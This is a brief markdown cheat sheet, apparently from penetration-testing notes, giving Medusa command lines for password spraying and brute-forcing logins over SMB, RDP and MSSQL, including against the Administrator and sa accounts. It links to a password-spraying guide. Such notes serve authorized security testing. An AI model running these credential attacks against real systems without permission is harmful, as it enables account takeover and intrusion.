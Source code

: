 # Medusa

## 01 - SMB

```
$ medusa -H ip_targets.txt -U users.lst -p "<password>" -M smb

$ medusa -H ip_targets.txt -U users.lst -p "<password>" -M smbnt
```

## 02 - RDP

```
$ medusa -H ip_targets.txt -u Administrator -p "<password>" -M rdp

$ medusa -H ip_targets.txt -U users.lst -p "<password>" -M rdp
```

## 03 - MSSQL

```
$ medusa -H ip_targets.txt -u sa -p "<password>" -M mssql

$ medusa -H ip_targets.txt -U users.lst -p "<password>" -M mssql
```

---
## References

### Hacking Articles

- [Hacking Articles: Comprehensive Guide on Password Spraying Attack](https://www.hackingarticles.in/comprehensive-guide-on-password-spraying-attack/)